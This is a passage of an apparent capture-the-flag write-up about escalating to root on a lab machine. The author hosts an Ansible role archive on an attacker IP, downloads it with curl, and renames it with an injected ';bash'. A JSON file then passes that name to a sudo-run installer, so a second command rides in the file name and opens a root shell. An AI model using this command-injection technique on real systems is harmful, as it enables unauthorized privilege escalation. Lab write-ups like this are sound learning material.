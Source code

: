 ```json
```
Once again, our efforts did not yield the desired outcome.

The third option involves attempting to `install` a role. To do so, we utilize an archive template file containing the Ansible role. By installing the role, we aim to escalate our privileges and advance further in the system.

Let’s start researching for instructions on installing an Ansible administrator role from a tar file and the appropriate template file to use.

After conducting research, I came across a project from [Coopdevs Development](https://github.com/coopdevs/sys-admins-role/releases) that seems promising.

> Ansible role to create users for system administrators


1. First, download the project to your local machine, and then proceed to upload it to the Lopez machine.

    + download it to your local machine 
    ```bash 
    wget https://github.com/coopdevs/sys-admins-role/archive/v0.0.3.tar.gz
    ```
    + create a python server 
    ```bash 
    python3 -m http.server 8080
    ```
    + download it in lopez machine 
    ```bash 
    curl http://10.10.16.35:8080/v0.0.3.tar.gz -o sys-admins-role-0.0.3.tar.gz 
    ```

2. Rename the tar file to include “`;bash`” after the name, triggering the execution of a shell immediately after successfully installing the Ansible role, granting us a root access.

    ```bash
    mv sys-admins-role-0.0.3.tar.gz admin.tar.gz\;bash
    ```

3. Now write the JSON file to install the role and run the app

    ```json
    //root.json

    {
    "run": {
        "action":"install",
        "role_file":"admin.tar.gz;bash"
    },
    "auth_code":"UHI75GHINKOP"
    }
```
4. Execute the application, specifying the JSON file as input.

    ```bash
    sudo /opt/runner2/runner2 root.json 
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YeDmnPV-GX9cWdjhDcIyow.png)
5. Finally, we have achieved root access. We can now obtain the root flag.